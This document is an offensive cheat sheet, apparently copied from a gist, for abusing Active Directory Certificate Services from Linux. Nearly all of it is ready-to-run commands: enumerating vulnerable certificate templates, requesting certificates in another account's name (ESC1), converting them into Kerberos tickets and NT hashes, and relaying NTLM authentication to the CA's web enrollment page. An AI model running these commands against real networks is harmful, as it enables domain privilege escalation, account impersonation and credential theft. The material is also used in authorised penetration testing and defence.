 # PKI Abuse
(copied from https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250)

Some golden links when you are having issues:
https://social.technet.microsoft.com/Forums/windows/en-US/96016a13-9062-4842-b534-203d2f400cae/ca-certificate-request-error-quotdenied-by-policy-module-0x80094800quot-windows-server-2008?forum=winserversecurity


## Enumerating ADCS On Linux

Download and install Certi
```shell
git clone https://github.com/eloypgz/certi
cd certi
sudo python3 setup.py install
```

Certi only support kerberos auth, so to perform authenticated enumeration, you need to fetch a TGT for a valid user first.
```shell
getTGT.py '<domain>/<username>:<password>' -dc-ip <dc-ip>
```
Set the env var to the output ccache

```shell
export KRB5CCNAME=/full/path/to/<username>.ccache
```

Enumerate Certificate Authorities on the domain (CA's)
```shell
python3 certi.py list '<domain>/<username>' -k -n --dc-ip <dc-ip> --class ca
```

Enumerate vuln templates
```shell
python3 certi.py list '<domain>/<username>' -k -n --dc-ip <dc-ip> --vuln --enable
```

## Requesting certs from CA Linux
 Requesting a cert with an alt subject name (ESC1)
 ```shell
python3 certi.py req '<domain>/<username>@<ca-server>' <ca-service-name> -k -n --dc-ip <dc-ip> --template <vuln-template> --alt-name <target-domain-account>
```
## Authenticating using cert on Linux

Request an TGT from Certificate with Client Auth or Smart Card Auth
```shell
python3 gettgtpkinit.py <domain>/<username> -cert-pfx <pfx-certificate-file> -pfx-pass <certificate-password> admin_tgt.ccache   
 ```

Get NTHash from requestd TGT above (KEY is outputed from the command above) 
```shell
python3 getnthash.py -key <AS-REP-encryption-key> -dc-ip <dc-ip> <domain>/<username> output_tgt.ccache
```
Note: You have to change the KRB5CCNAME variable to the target users tgt ccache file first (admin_tgt.ccache above):
```shell
export KRB5CCNAME=/full/path/to/admin_tgt.ccache
```

## Relaying On Linux

Relaying incoming SMB/HTTP connection to ADCS to generate a certificate on

Fetch and install a custom fork of impacket
```shell
git clone https://github.com/ExAndroidDev/impacket.git
cd impacket
git checkout ntlmrelayx-adcs-attack
```

Create a virtual python env to contain this version of impacket (Avoid breaking the release you already have installed)
```shell
apt install python3-venv
python3 -m venv adcs-impacket
```

Move "into" this virutal env 
```shell
source adcs-impacket/bin/activate
```
Still inside the impacket folder

```shell
pip3 install .
```

You can now setup ntlmrelay for realying 
```shell
python3 examples/ntlmrelayx.py -t http://<ca-server>/certsrv/certfnsh.asp -smb2support --adcs --template <template-name>
```

## Authentication using certificate on Linux
```shell
python3 gettgtpkinit.py <domain>/<username> -pfx-base64 $(cat <base64-cert.file>) -dc-ip <dc-ip> out_tgt.ccache
```
